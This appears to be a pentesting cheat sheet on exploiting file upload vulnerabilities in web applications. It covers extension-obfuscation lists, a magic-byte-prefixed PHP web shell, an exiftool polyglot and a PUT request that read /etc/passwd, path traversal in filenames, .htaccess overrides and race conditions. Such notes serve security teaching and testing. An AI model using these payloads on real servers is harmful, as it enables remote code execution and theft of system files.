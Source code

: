 ```yaml
---
title: "File upload vulnerabilities"
weight: 9
description: "Understand how to exploit file upload functionalities through flawed validation, misconfigurations, race conditions, and other advanced techniques."
---
```


Improper handling of file uploads is a common security weakness in web applications. If not carefully validated, uploaded files can lead to remote code execution (RCE), cross-site scripting (XSS), and other types of attacks.

> **Warning**: By default, servers do not execute uploaded files unless they are explicitly configured to do so.

---

## Flawed File Validation

Poor validation allows attackers to bypass filters and upload dangerous files.

### Content-Type Bypass

Change `Content-Type` to an allow MIME type. (e.g. `image/jpeg`)

### Dangerous File Extensions

Some file extensions are known to trigger execution on the server. Even if certain types are blacklisted, you can still try alternate or obfuscated extensions:

```sh
# Common dangerous extensions
.php
.php3
.php4
.php5
.phtml
.phar

# Obfuscation examples
exploit.pHp
exploit.php.jpg
exploit.php.
exploit%2Ephp
exploit.asp;.jpg
exploit.asp%00.jpg
exploit.p.phphp
```

### File Content Validation

Even if the extension is valid, some servers validate the file content using magic numbers (specific byte patterns at the start of files).

| File     | Hex Signature                       | ISO 8859-1   |
| -------- | ----------------------------------- | ------------ |
| PNG      | 89 50 4E 47 0D 0A 1A 0A             | ‰PNG␍␊␚␊     |
| JPG/JPEG | FF D8 FF EE                         | ÿØÿî         |
| JPG/JPEG | FF D8 FF E0                         | ÿØÿà         |
| JPG/JPEG | FF D8 FF E0 00 10 4A 46 49 46 00 01 | ÿØÿà␀␐JFIF␀␁ |
| PDF      | 25 50 44 46 2D                      | %PDF-        |

You can still inject malicious code using a valid header:

```php
ÿØÿî
<?php echo system($_GET['cmd']); ?>
```

### Polyglot Files

Create a polyglot JPEG file containing malicious code within its metadata

```sh
exiftool -Comment="<?php echo 'START ' . file_get_contents('/etc/passwd') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php
```

This works if you can upload a php extension file. This works why you have a real image file (that bypass restrictions) but when you open the image it's executed as php script.

---

## Overriding Server Configuration

Many servers allow configuration files in directories to override global settings. Web servers use them when present, but they're not accessible via HTTP requests.

If the file extension is blacklisted, you might trick the server into mapping a custom file extension to an executable MIME type.

* Apache servers ➜ `.htaccess`
* Example: `AddType application/x-httpd-php .<EXTENSION>`

---

## PUT Method Exploitation

Some servers support the HTTP `PUT` method for uploading files directly.

```http
PUT /images/exploit.php HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-httpd-php
Content-Length: 49

<?php echo file_get_contents('/etc/passwd'); ?>
```

---

## Path Traversal + File Upload

If execution is blocked in the upload directory but the web server use the filename field in the request to determine the file’s name and location, you can try to escape using path traversal in the `filename` field:

```http
Content-Disposition: form-data; name="avatar"; filename="../exploit.php"
```

> **Tip**: If directory traversal is filtered, try encoding it: `filename="..%2fexploit.php"`.

---

## Upload Without RCE

Even without remote code execution, you can still cause harm:

- Upload `.html` or `.svg` files with embedded JavaScript ➜ **Stored XSS**
- Upload XML files like `.docx`, `.xlsx` ➜ Possible **XXE injection**

---

## Race Conditions in File Uploads

In some setups, files are uploaded and scanned (e.g., with antivirus) before being permanently stored. During this short window, the file may exist temporarily on disk and you could potentially execute it.

- Race conditions
- Difficult to detect

### Exploiting URL-Based Uploads

If a file is loaded into a temporary directory with a randomized name, it should be impossible for an attacker to exploit any race conditions.

* If the randomized directory name is generated using pseudo-random functions like PHP's `uniqid()`, it can potentially be brute-forced.
  * Try to extend the amount of time taken to process the file by uploading a larger file
* If it is processed in chunks, you can potentially take advantage of this by creating a malicious file with the payload at the start, followed by a large number of arbitrary padding bytes.